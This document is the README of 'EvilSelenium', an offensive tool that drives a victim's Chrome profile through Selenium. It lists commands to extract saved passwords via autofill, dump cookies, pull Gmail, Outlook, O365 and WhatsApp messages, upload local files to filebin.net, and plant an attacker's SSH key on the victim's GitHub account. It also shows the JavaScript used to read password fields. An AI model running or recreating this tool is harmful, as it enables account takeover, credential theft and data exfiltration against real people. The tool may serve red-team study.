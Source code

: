 # EvilSelenium
EvilSelenium is a beta project that weaponizes <a href="https://www.selenium.dev/">Selenium</a> to abuse Chrome, specifically:

* Steal stored credentials (via autofill)
* Steal cookies
* Take screenshots of websites
* Dump Gmail/O365 emails
* Dump WhatsApp messages
* Download & exfiltrate files
* Add SSH keys to GitHub

Easily extend the existing functionality to suit your needs (e.g. Create resources on Azure, download files from GDrive/OneDrive).

# READ PLEASE

**Existing Chrome processes are terminated when this tool runs in order to be able to access the user's Chrome profile.**

# READ PLEASE #2

I built this tool in about a week & I didn't run as many tests as I should. I would highly advise running some tests first.

# Usage

    /help - Show this help menu.

    SETUP:
    /install - Install chromedriver & Selenium webdriver. Run this once.

    RECON:
    /enumsavedsites [out_path] - Check which websites have passwords saved via screenshot(s).
    /screenshot [website] [out_path] - Screenshot a given webpage.

    CREDENTIALS:
    /autorun - Extract saved credentials from common websites.
    /dynamicid [login_page] [username_id] [password_id] - Extract saved credentials from a website, providing the username field ID & password field ID.
    /dynamicname [login_page] [username_name] [password_name] - Extract saved credentials from a website, providing the username field name value & password name value.
    /dynamicname2 [login_page] [username_position] [password_position] [username_name] [password_name] - Extract saved credentials from a website, providing the username field name value, password name value and their positions.

    COOKIES:
    /cookies [website] - Grabs cookies for a given website.

    MODULES:
    /download [file_url] [seconds] - Downloads a file and specify time to wait for download to finish. File extensions should not be executable.
    /exfil [local_file] [seconds] - Uploads a file on filebin.net and outputs the download link.
    /gmail [out_path] [num_of_emails] - Fetches emails from mail.google.com if user is authenticated. Max 50 emails.
    /outlook [out_path] [num_of_emails] - Fetches emails from Outlook if user is authenticated.
    /o365 [out_path] [num_of_emails] - Fetches emails from O365 Outlook if user is authenticated.
    /github [key] - Add your SSH key to Github if user is authenticated.
    /whatsapp [out_path] - Fetches Whatsapp messages if user is authenticated (BETA).

# Setup

The `/install` command will download the Chrome Driver and Selenium WebDriver which are the necessary requirements. EvilSelenium will work on Chrome versions 98-90.

**Tested on Windows 10, Chrome v97 & v90.**

	EvilSelenium.exe /install

# Recon Module

`/enumsavedsites` - This will take screenshots of chrome://settings/passwords

`/screenshot` - Screenshot any website. If the user is authenticated to the website then you get authenticated screenshots :).

# Credentials Module

**IMPORTANT:** The credentials module will **DELETE COOKIES** and steal credentials from autofill. Ideally, you should use the credentials module at the end otherwise you would have to write code to sign back in.

`/autorun` - I pre-built credential stealer templates for common websites. I'll continue to add more.

`dynamicid` - Provide the login URL along with the username input field's ID and password field's ID. This is equivalent to document.getElementById("password").value.

`dynamicname` - If the fields don't have IDs, provide the fields' name values. It will pick the first index of the name values. This is equivalent to document.getElementsByName("password")[0].value.

`dynamicname2` - Provide the fields' name values along with their index position. This is equivalent to document.getElementsByName("password")[x].value.

# Cookies Module

`/cookies` - Dumps cookies from the specified website.

# Misc Modules

These are additional modules I built to demonstrate what sort of actions you can do with Selenium.